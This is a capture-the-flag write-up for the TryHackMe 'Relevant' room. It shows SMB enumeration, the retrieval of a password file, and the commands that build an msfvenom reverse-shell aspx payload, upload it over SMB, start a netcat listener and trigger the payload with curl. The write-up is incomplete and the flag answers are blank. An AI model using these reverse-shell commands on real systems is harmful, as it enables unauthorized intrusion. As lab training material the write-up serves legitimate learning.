


# [Relevant](https://tryhackme.com/r/room/relevant)

 

[Relevant](https://tryhackme.com/r/room/relevant) is listed as an Medium room Penetration Testing Challenge. An overview of what we’ll be using is listed here:

* Nmap
* Smbclient
* 



## Pre-Engagement Briefing

You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in seven days. 

Scope of Work

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

* User.txt
* Root.txt

Additionally, the client has provided the following scope allowances:

* Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
* Locate and note all vulnerabilities found
* Submit the flags discovered to the dashboard
* Only the IP address assigned to your machine is in scope
* Find and report ALL vulnerabilities (yes, there is more than one path to root)

(Roleplay off)

I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnSecurity Certified Professional Penetration Tester or career as a penetration tester in the field.

Note - Nothing in this room requires Metasploit

Machine may take up to 5 minutes for all services to start.

**Writeups will not be accepted for this room.**

### Enumeration & Exploitation

* Port scan with `Nmap`

	```
	nmap -A $IP -oN nmap-scan.txt
	```

	

* Listing smb client

	```
	smbclient -L \\$IP
	```

	

* Open list drive

	```
	smbclient \\\\$IP\\nt4wrksv
	```

	

* Download file `password.txt` and view the file

	

* Decode the `password.txt` code

	

* Crete payload reverse shell

	```
	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.17.127.223 LPORT=8888 -f aspx -o shell.aspx
	```

	

* Upload payload

	```
	smbclient \\\\$IP\\nt4wrksv
	put shell.aspx
	```

	

* Set listener on attacker machine

	```
	nc -nvlp 8888
	```
	
	

* Access the payload to get reverse shell

	```
	curl http://10.10.131.206:49663/nt4wrksv/shell.aspx
	```

### Answer the questions below

* User Flag

* Root Flag